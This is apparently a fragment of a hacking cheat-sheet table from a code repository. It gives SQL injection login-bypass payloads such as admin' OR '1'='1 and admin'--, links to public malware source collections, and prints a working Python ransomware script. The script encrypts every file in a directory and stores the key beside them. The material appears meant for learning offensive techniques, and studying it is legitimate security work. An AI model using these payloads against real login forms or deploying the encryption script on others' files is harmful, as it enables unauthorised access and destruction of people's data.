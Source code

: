 <tr>
<th>SQL Injections</th>
<td>run database against logins<br /></td>
<td>
SELECT * FROM users WHERE username = 'admin' AND password='pass' <br />
<br />
use admin' as username, so username = ' admin' ', if syntax error = SQL Inj vuln <br />
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password='pass' ( first reads AND then OR ) <br /><br />
username : admin' OR '1'='1 ; password: password123 <br />
<br />
username  :  admin'-- <br />
SELECT * FROM users WHERE username ='admin'-- 'AND password='password123' <br />
-- is comment and ignore the rest section after it in SQL injection attacks. <br />
<br /></td>
</tr>

<tr>
<th>create malware</th>
<td>

ransomware, worms, trojan, adware, spyware with [malware showcase](https://github.com/PatrikH0lop/malware_showcase), [MalwareSourceCode](https://github.com/vxunderground/MalwareSourceCode), [theZoo - A Live Malware Repository](https://github.com/ytisf/theZoo), [Malware Database](https://github.com/Endermanch/MalwareDatabase)<br /></td>
<td>
$ mkdir ransomware <br />
$ cd ransomware (encrypt the following files)<br />
$ echo "this is a file" > file.txt <br />
$ echo "leave me alone" > file2.txt <br />
$ echo "another one" > hey.txt <br />
$ echo "one more" > pleasedonthurtme.txt <br />
$ nano ransom.py <br />
<br />

encryption script:<br />
```python
    #!/usr/bin/env python3
    import os
    from cryptography.fernet import Fernet


    files = []

    for file in os.listdir():
        if file == "ransom.py" or file=="thekey.key" or file=="decrypt.py":
            continue
        if os.path.isfile(file):    
            files.append(file) 

    print(files)

    key = Fernet.generate_key()

    with open("thekey.key", "wb") as thekey:
        thekey.write(key)

    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_encrypted = Fernet(key).encrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_encrypted)

    print(key)
```